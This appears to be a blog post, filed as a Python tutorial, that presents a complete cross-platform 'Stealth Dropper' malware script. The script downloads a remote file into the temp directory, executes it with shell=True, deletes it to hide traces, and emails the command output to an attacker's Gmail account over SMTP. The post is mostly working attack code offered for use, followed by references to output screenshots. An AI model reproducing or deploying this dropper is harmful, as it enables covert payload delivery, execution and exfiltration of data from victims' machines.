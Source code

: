 ```yaml
---
title: Malware - Stealth Dropper
date: 2021-08-19 10:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Downloads, executes, reports and cleans up after.
---
```


<p align="center">
 <img src="https://i.imgflip.com/4/3pt59r.jpg">
</p>

## A Cross Platform python script that downloads, executes, reports and cleans up after.


- We implement:
  > the `tempfile module` - to find the temp dir.

  > the `os module` - to use platform independent functions like chdir to change to the temp dir.

  > the `subprocess module `- to execute and remove the created file.

  > the `smtplib module` - to create an SMTP instance to send our reports back to our proviced mail address.


### Code:

```python
#!/usr/bin/env python

import requests, subprocess, smtplib, os, tempfile, argparse

# Cross-Platform
# Works by default with google's SMTP


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-d", "--download-file", dest="download", help="File to Download")
    parser.add_argument("-a", "--args", dest="args", help="args if provided by Download file")
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.download:
        # code to handle error
        parser.error("\n[-] Please specify a valid download url,  use --help for info.")
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    return options


def download(url):
    get_response = requests.get(url)
    file_name = url.split("/")[-1]
    # Open File with write and binary mode
    with open(file_name, "wb") as out_file:
        out_file.write(get_response.content)
    return file_name

def send_mail(email, password, message):
    # Google's SMTP definition
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()


print("""\n\n\n
                                                        𝕾𝖙𝖊𝖆𝖑𝖙𝖍-𝕯𝖗𝖔𝖕𝖕𝖊𝖗
    """)


print("\n{-} Finding /tmp dir.")
options = get_arguments()


# Find /tmp dir on OS
temp_directory = tempfile.gettempdir()
os.chdir(temp_directory)
print("{+} /tmp dir found!")

# Download
file_name = download(options.download)
print("\n{+} File " + file_name + " has been succesfully dropped!")
# Execute
result = subprocess.check_output(file_name + " " +  options.args, shell=True)
print("{+} File " + file_name + " has been succesfully Executed!")
# Remove
os.remove(file_name)
print("{+} File " + file_name + " has been succesfully Removed!")
# Report
send_mail(options.email, options.password, result)
print("\n\n{!} Report sent to: " + options.email)
```

### Output:

_Console:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Stealth_Dropper/dropper.png)

_Report:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Stealth_Dropper/dropper2.png)




